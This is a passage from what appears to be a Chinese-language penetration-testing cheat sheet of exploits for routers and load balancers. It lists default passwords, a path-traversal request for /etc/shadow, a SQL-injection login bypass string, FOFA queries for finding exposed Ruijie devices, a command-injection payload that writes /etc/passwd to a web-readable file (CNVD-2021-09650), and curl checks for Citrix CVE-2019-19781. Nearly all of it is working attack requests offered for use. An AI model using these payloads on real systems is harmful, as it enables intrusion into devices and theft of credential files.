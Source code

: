 默认密码：admin/admin

poc：

```
GET /Action/download?filename=../../../../../../etc/shadow HTTP/1.1
Host：
....
```

##### 流控路由 SQL注入漏洞✅

万能密码登录：

```
user: "or""=""or""="
pass: 空
```

#### 锐捷 NBR路由器

##### 远程命令执行漏洞 CNVD-2021-09650 ✅

FOFA：

```
title="锐捷网络-EWEB网管系统"
icon_hash="-692947551"
```

构造命令执行：

```
POST /guest_auth/guestIsUp.php
mac=1&ip=127.0.0.1|cat /etc/passwd > test.txt
```

再访问：

```
/guest_auth/test.txt
```

### 0x06 负载均衡

#### Citrix ADC

##### 默认口令

```
nsroot/nsroot
```

##### 远程代码执行 CVE-2019-19781

访问以下链接，返回403则表示不存在漏洞，返回smb.conf则证明漏洞存在。

```
curl https://host/vpn/../vpns/cfg/smb.conf --path-as-is
或
curl https://host/vpn/../vpns/cfg/smb.conf --path-as-is --insecure
```
